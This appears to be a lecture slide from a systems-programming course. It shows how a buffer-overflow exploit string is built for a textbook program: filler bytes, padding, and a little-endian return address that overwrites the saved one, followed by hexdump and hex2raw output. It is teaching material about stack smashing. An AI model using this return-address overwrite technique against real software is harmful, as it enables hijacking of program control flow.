

# Creating the Exploit String
exploit-string.txt

48 65 6C 6C 6F 2C 20 57   // fill the buffer
6F 72 6C 64 21 0A 00 00   // fill the space between buffer and return address
EB 05 40                  // new return address (byte reversed due to little-endian)
textbook-code/chap11> hexdump -C exploit-string.txt
00000000  34 38 20 36 35 20 36 43  20 36 43 20 36 46 20 32  |48 65 6C 6C 6F 2|
00000010  43 20 32 30 20 35 37 20  20 20 2f 2f 20 66 69 6c  |C 20 57   // fil|
00000020  6c 20 74 68 65 20 62 75  66 66 65 72 0a 36 46 20  |l the buffer.6F |
00000030  37 32 20 36 43 20 36 34  20 32 31 20 30 41 20 30  |72 6C 64 21 0A 0|
00000040  30 20 30 30 20 20 20 2f  2f 20 66 69 6c 6c 20 74  |0 00   // fill t|
00000050  68 65 20 73 70 61 63 65  20 62 65 74 77 65 65 6e  |he space between|
00000060  20 62 75 66 66 65 72 20  61 6e 64 20 72 65 74 75  | buffer and retu|
00000070  72 6e 20 61 64 64 72 65  73 73 0a 45 42 20 30 35  |rn address.EB 05|
00000080  20 34 30 20 20 20 20 20  20 20 20 20 20 20 20 20  | 40             |
00000090  20 20 20 20 20 2f 2f 20  6e 65 77 20 72 65 74 75  |     // new retu|
000000a0  72 6e 20 61 64 64 72 65  73 73 20 28 62 79 74 65  |rn address (byte|
000000b0  20 72 65 76 65 72 73 65  64 20 64 75 65 20 74 6f  | reversed due to|
000000c0  20 6c 69 74 74 6c 65 2d  65 6e 64 69 61 6e 29 0a  | little-endian).|
000000d0

textbook-code/chap11> ./hex2raw < exploit-string.txt > exploit-string.raw
textbook-code/chap11> hexdump -C exploit-string.raw
00000000  48 65 6c 6c 6f 2c 20 57  6f 72 6c 64 21 0a 00 00  |Hello, World!...|
00000010  eb 05 40                                          |..@|
00000013
Slide by Bohn
Programming at the Hardware/Software Interface
21